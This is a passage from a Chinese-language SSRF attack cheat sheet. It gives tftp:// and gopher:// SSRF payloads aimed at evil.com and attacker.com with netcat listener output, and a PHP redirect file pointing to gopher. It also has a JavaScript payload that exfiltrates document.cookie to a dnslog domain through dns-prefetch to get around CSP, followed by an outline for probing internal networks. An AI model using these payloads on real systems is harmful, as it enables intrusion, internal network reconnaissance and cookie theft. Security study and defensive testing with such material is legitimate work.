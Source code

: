 ```
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET 
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port1337)TESTUDPPACKEToctettsize0blksize512timeout3
```

##### **gopher://**

[Gopher](https://blog.chaitin.cn/gopher-attack-surfaces/)是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。

```
http://example.com/ssrf.php?url=http://attacker.com/gopher.php gopher.php (host it on acttacker.com):-<?php  header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');?>
 evil.com:# nc -lvp 1337
 Listening on [0.0.0.0] (family 0, port1337)Connection from [192.168.0.12] port 1337[tcp/*] accepted (family 2, sport 49398)Hissrftest
```

#### **利用技巧**

dnslog无回显解决

`http://10.10.107.1:8080/ssrf.php?url=http://php.nf9eex.dnslog.cn  `

*ps:dnslog绕过xss-csp*

*`DNS预解析可以绕过CSP进行解析`，结合DNSLOG我们即可窃取在CSP保护下的Cookie。* 

```html
#Payload
document.querySelector('body').innerHTML += "<link rel='dns-prefetch' href='" + window.btoa(document.cookie.split(/;|=/)[1]) + ".4q9z30.dnslog.cn'>"

#执行结果
R0ExLjIuMTY0MjI2NDMxNi4xNTMyNTc0NTg3.4q9z30.dnslog.cn **.**.**.** 	2019-07-27 10:45

```

dnslog ssrf外更多利用[参考](https://weiyigeek.club/2019/04/17/模糊测试之攻击回显.html)

综合利用

Bool型SSRF是根据返回包中的state进行判断，当state为”远程连接出错”或者为“SUCCESS”时表示该主机存在，且对应的端口为开放状态。对于Bool型SSRF ，页面仅返回了状态， 而没有更多别的信息，要想进一步利用，可根据如下的思路：

内网探测->应用识别->攻击Payload->查看结果

1）内网探测

a:验证URL Schema存在情况，并通过自动化脚本探测内网，查看内网开放的主机和端口 。

2)应用识别

根据存在的端口进行应用识别

3）构造攻击Payload

根据识别的应用和漏洞构造对应payload进行验证

4）查看结果
